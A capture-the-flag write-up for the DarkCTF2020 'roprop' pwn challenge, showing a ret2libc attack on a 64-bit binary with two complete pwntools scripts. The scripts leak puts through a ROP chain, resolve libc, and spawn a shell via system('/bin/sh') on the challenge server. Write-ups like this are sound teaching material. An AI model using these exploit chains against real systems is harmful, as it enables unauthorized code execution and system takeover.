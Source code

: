 # DarkCTF2020:roprop (pwn,313 pts)

### Challenge:

>  We given a 64 bit ELF binary , and we need to do get the shell using gets func and ROPs .
>  We are not given Libc (which is used by server).we also need to find that one

Its a simple ret2libc 

**Exploit plan:**
```
1. Leak the puts_got address using puts_plt 
2. Getting libc from the puts_leak
3. Getting shell 

```
### Leaking puts

```python
from pwn import *

context.arch='amd64'

elf = ELF('./roprop')

p = remote('roprop.darkarmy.xyz',5002)

buf = 'A'*88

rop = ROP('roprop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.sendline(paylaod1)

p.recv()

l = p.recv()[49:56]

puts_leak = u64(l.strip().ljust(8, "\x00"))

print(hex(puts_leak))
```

We get the puts leak.

### Getting Libc

After getting the address of puts we should search on libc database [website](https://libc.blukat.me/) for the correct libc version that the server is using, download that.

### Exploit

```python


from pwn import *

context.arch='amd64'

elf = ELF('./roprop')

libc = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

# p = process(elf.path)

p = remote('roprop.darkarmy.xyz',5002)

buf = 'A'*88

rop = ROP('roprop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.sendline(paylaod1)

p.recv()

l = p.recv()[49:56]

puts_leak = u64(l.strip().ljust(8, "\x00"))

libc.address = puts_leak - libc.symbols['puts']

print(hex(puts_leak))

binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]

exit = libc.sym["exit"]

payload2 = buf
payload2 += p64(ret) 
payload2 += p64(pop_rdi) 
payload2 += p64(binsh)  
payload2 += p64(system) 
payload2 += p64(exit)

p.clean()
p.sendline(payload2)
p.interactive()
```

**Flag: darkCTF{y0u_r0p_r0p_4nd_w0n}**
